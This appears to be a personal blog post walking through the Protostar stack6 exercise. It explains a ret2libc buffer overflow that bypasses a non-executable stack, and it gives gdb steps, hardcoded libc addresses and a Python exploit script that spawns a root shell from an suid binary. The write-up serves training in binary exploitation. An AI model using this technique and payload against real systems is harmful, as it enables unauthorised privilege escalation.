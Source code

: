 ```yaml
---
layout: post
title: Buffer Overflow Examples, Bypassing non-executable stack by re2libc - protostar stack6
categories: binary-exploitation
tags: [Linux, Binary Exploitation, Exploit Development, Buffer Overflow, c, Python]
image: binary-exploitation/BOF6/0.png
---
```

<hr>
### Introduction
#### Hey guys , In the last post about buffer overflow we exploited a buffer overflow vulnerability where we were able to inject a shellcode and escalate privileges to root. But that was possible because we were able to overwrite the return address to another address on the stack where we placed our shellcode , but what if the stack is non-executable ? we will perform an attack called ret2libc and that's what we are going to discuss today with protostar - stack6. Without wasting more time let's jump right in !
#### Read the [previous posts](/categories/#binary-exploitation) if you haven't yet.
![](/images/binary-exploitation/BOF6/0.png)
<hr>
### ./stack6
#### As always we are given the source code of the binary :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
        char buffer[64];
        unsigned int ret;

        printf("input path please: "); fflush(stdout);

        gets(buffer);

        ret = __builtin_return_address(0);

        if((ret & 0xbf000000) == 0xbf000000) {
                printf("bzzzt (%p)\n", ret);
                _exit(1);
        }

        printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
        getpath();



}
```
#### What this code is doing is just printing `input path please:` then it stores our input in a buffer of 64 chars and finally it prints it out:
![](/images/binary-exploitation/BOF6/1.png)
#### Our problem is this `if` statement :
```
        if((ret & 0xbf000000) == 0xbf000000) {
                printf("bzzzt (%p)\n", ret);
                _exit(1);
        }
```
#### This is making sure that the return address is not on the stack , which makes it not possible to perform a shellcode injection like we did in the [previous example](/binary-exploitation/bof5/). We can defeat this by a technique called ret2libc.
<br>
<hr>
### ret2libc
#### So what is "ret2libc" ? If we take the word itself : "ret" is return , "2" means to and "libc" is the C library. The idea behind ret2libc is instead of injecting shellcode and jumping to the address that holds that shellcode we can use the functions that are already in the C library. For example we can call the function `system()` and make it execute `/bin/sh`. (Read about `system()` [here](https://www.tutorialspoint.com/c_standard_library/c_function_system.htm)). We will also need to use the function `exit()` to make the program exit cleanly. (Read about `exit()` [here](https://www.tutorialspoint.com/c_standard_library/c_function_exit.htm)).
#### So finally our attack payload will be : "padding --> address of `system()` --> address of `exit()` --> `/bin/sh`" instead of : "padding --> new return address --> NOP --> shellcode".
#### Now let's see how will we do it.
<br>
<hr>
### Exploiation 
#### Again , this will execute `/bin/sh` as root because this binary is an `suid` binary. If it wasn't `suid` we would get a shell as the same user. We can check by using `find` :
`find /opt/protostar/bin/ -perm -4000 | grep stack6`
![](/images/binary-exploitation/BOF6/2.png)
#### As you can see `stack6` is an `suid` binary.
#### So first of all , after we call `system()` we will need to give it `/bin/sh` , how will we do that ? A nice way to do it is to store `/bin/sh` in an environment variable. I created a variable and called it `SHELL` :
![](/images/binary-exploitation/BOF6/3.png)
#### Now we need to find the address of that variable , we can do it from `gdb` by setting a breakpoint at main , then running the program and doing this : `x/s *((char **)environ+x)` where `x` is a number , This will print the address of an environment variable. We will keep trying numbers until we get the address of `SHELL`
#### But I found a better way to do it when I was reading an article on [shellblade](https://www.shellblade.net/). We will use a `c` program to tell us the estimated address.
#### Code :
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char **argv)
{
        char *ptr = getenv("SHELL");
        if (ptr != NULL)
        {
                printf("Estimated address: %p\n", ptr);
                return 0;
        }
}
```
![](/images/binary-exploitation/BOF6/4.png)
#### Then we will compile it : `gcc address.c -o address` :
![](/images/binary-exploitation/BOF6/5.png)
#### As you can see it's telling us the address of the environment variable `SHELL`. Now keep in mind that this is not the "exact" address and we will need to go up and down to get the right address.
#### Let's start by finding the offset. As we did before we will use `pattern_create.rb` and `pattern_offset.rb` from metasploit exploitation tools.
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF6/6.png)
#### We have our pattern now let's run the program in gdb and set a breakpoint before main `break *main`. Then we will type `c` to continue and paste the pattern. The buffer will overflow and we will see exactly where did the overflow happen : 
![](/images/binary-exploitation/BOF6/7.png)
#### We got the address `0x37634136` , now let's go back and use `pattern_offset.rb` :
`./pattern_offset.rb -q 0x37634136`
![](/images/binary-exploitation/BOF6/8.png)
#### So after 80 chars the buffer overflows. Next thing to check is the addresses of `system()` and `exit()`. From gdb we will set a break point at main and type `r` to run the program. After it reaches the break point and breaks we can get the address of system by typing `p system` and we will do the same thing for exit `p exit` :
![](/images/binary-exploitation/BOF6/9.png)
#### Address of system : `0xb7ecffb0`
#### Address of exit : `0xb7ec60c0`
#### Lastly we will check the address of `SHELL` again because it's subject to change :
![](/images/binary-exploitation/BOF6/10.png)
#### Address : `0xbffff985` 
#### Let's check our notes :
![](/images/binary-exploitation/BOF6/11.png)
#### Ok , we are ready to write our exploit , we will use struct `import struct` like we did before. We will create a variable for the chars we will use to fill the buffer and call it `buffer` , its value will be 80 A's.
`buffer = "A" * 80`
#### Then we will create 3 variables to hold the addresses of `system()` , `exit()` and `SHELL`. We will use struct to reverse the addresses.
`system = struct.pack("I" ,0xb7ecffb0)`
<br>
<br>
`exit = struct.pack("I" ,0xb7ec60c0)`
<br>
<br>
`shell = struct.pack("I" ,0xbffff985)`
#### And finally we will print the payload.
`print buffer + system + exit + shell`
#### Final script :
```
import struct

buffer = "A" * 80
system = struct.pack("I" ,0xb7ecffb0)
exit = struct.pack("I" ,0xb7ec60c0)
shell = struct.pack("I" ,0xbffff985)

print buffer + system + exit + shell
```
![](/images/binary-exploitation/BOF6/12.png)
#### We have to remember that the address of `SHELL` is not the exact address and we will need to go up or down for a little bit. We will execute the script and redirect the output to a file and name it payload. `python /tmp/stack6.py > /tmp/payload` , Then we will cat the file and pipe the output to `./stack6` :
![](/images/binary-exploitation/BOF6/13.png)
#### And no shell , After going up and down by editing the address in the python script I finally got the right address which is `0xbffff992` :
`python /tmp/stack6.py > /tmp/payload`
<br>
<br>
`cat /tmp/payload - | ./stack6`
![](/images/binary-exploitation/BOF6/14.png)
#### root shell!
#### So after editing the address of `shell` variable , the script will be like this :
```
import struct

buffer = "A" * 80
system = struct.pack("I" ,0xb7ecffb0)
exit = struct.pack("I" ,0xb7ec60c0)
shell = struct.pack("I" ,0xbffff992)

print buffer + system + exit + shell
```
![](/images/binary-exploitation/BOF6/15.png)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Binary Exploitation article : [Buffer Overflow Examples, Code execution by shellcode injection - protostar stack5](/binary-exploitation/bof5/)
<hr>
